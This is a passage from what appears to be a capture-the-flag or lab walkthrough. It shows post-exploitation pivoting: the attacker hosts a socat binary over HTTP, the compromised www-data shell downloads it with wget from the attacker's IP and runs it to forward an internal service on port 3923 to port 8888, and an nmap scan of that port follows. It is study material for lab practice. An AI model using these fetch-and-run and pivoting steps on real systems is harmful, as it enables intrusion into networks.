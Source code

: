 `python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`cd /tmp`

`wget http://192.168.56.118/socat`:
```
--2024-09-23 15:46:32--  http://192.168.56.118/socat
Connecting to 192.168.56.118:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: ‘socat’

socat               100%[===================>] 366.38K  --.-KB/s    in 0.006s  

2024-09-23 15:46:32 (60.8 MB/s) - ‘socat’ saved [375176/375176] ←
```

`chmod +x ./socat`

`./socat TCP-LISTEN:8888,reuseaddr,fork TCP:127.0.0.1:3923`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nmap -Pn -sSV -p8888 -T5 192.168.56.121`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 09:56 EDT
WARNING: Service 192.168.56.121:8888 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for 192.168.56.121
Host is up (0.00056s latency).

PORT     STATE SERVICE VERSION
8888/tcp open  rtsp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.94SVN%I=7%D=9/23%Time=66F173AC%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,1138,"HTTP/1\.0\x20200\x20OK\r\nContent-Length:\x204209\r\n
SF:Connection:\x20Close\r\nDate:\x20Mon,\x2023\x20Sep\x202024\x2013:52:51\
SF:x20GMT\r\nVary:\x20Origin,\x20PW,\x20Cookie\r\nCache-Control:\x20no-sto
SF:re,\x20max-age=0\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\n\r\
SF:n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n\n<head>\n\t<meta\x20charse
SF:t=\"utf-8\">\n\t<title>wave\x20</title>\n\t<meta\x20http-equiv=\"X-UA-C
SF:ompatible\"\x20content=\"IE=edge\">\n\t<meta\x20name=\"viewport\"\x20co
SF:ntent=\"width=device-width,\x20initial-scale=0\.8,\x20minimum-scale=0\.
SF:6\">\n\t<meta\x20name=\"theme-color\"\x20content=\"#333\">\n\n\t<link\x
SF:20rel=\"stylesheet\"\x20media=\"screen\"\x20href=\"/\.cpr/ui\.css\?_=8R
SF:_W\">\n\t<link\x20rel=\"stylesheet\"\x20media=\"screen\"\x20href=\"/\.c
SF:pr/browser\.css\?_=8R_W\">\n</head>\n\n<body>\n\t<div\x20id=\"ops\"></d
SF:iv>\n\n\t<div\x20id=\"op_search\"\x20class=\"opview\">\n\t\t<div\x20id=
SF:\"srch_form\"\x20class=\"opbox\"></div>\n\t\t<div\x20id=\"srch_q\"></di
SF:v>\n\t</div>\n\n\t<div\x20id=\"op_player\"\x20class=\"opview\x20opbox\x
SF:20opwide\"></div>\n\n\t<div\x20id=\"op_bup\"\x20class=\"opview\x20opbox
SF:\x20act\">\n\t\t<div\x20id=\"u2err\"></div>\n\t\t<for")%r(HTTPOptions,1
SF:47,"HTTP/1\.0\x20200\x20OK\r\nContent-Length:\x200\r\nConnection:\x20Cl
SF:ose\r\nDate:\x20Mon,\x2023\x20Sep\x202024\x2013:52:51\x20GMT\r\nVary:\x
SF:20Origin,\x20PW,\x20Cookie\r\nCache-Control:\x20no-store,\x20max-age=0\
SF:r\nAllow:\x20GET,\x20HEAD,\x20POST,\x20PUT,\x20DELETE,\x20OPTIONS,\x20P
SF:ROPFIND,\x20PROPPATCH,\x20LOCK,\x20UNLOCK,\x20MKCOL,\x20COPY,\x20MOVE\r
SF:\nDav:\x201,\x202\r\nMs-Author-Via:\x20DAV\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\n\r\n")%r(RTSPRequest,14C,"RTSP/1\.0\x20200\x20OK
SF:\r\nContent-Length:\x200\r\nConnection:\x20Keep-Alive\r\nDate:\x20Mon,\
```